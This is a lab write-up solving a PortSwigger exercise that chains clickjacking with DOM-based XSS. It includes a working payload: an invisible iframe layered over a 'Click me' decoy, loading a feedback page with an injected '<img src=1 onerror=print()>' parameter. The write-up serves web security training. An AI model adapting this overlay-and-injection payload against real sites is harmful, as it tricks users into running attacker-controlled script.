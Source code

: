 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

## Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss) contains an XSS vulnerability that is triggered by a click. 

## Reproduction and proof of concept

1. Log in to the `wiener` account on the target website and find vuln.

![Clickjacking](../../_static/images/clickjacking5.png)
![Clickjacking](../../_static/images/clickjacking6.png)
![Clickjacking](../../_static/images/clickjacking7.png)

2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the `/feedback` page, and depends on the unique `lab-id`.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `$top_value` and `$side_value` values of resp `610px` and `80px` to align the "Submit feedback" button with the "Test me" decoy action.

```text
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe src="lab-id.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking8.png)

6. **Deliver exploit to victim**

## Exploitability

An attacker needs to construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function. 
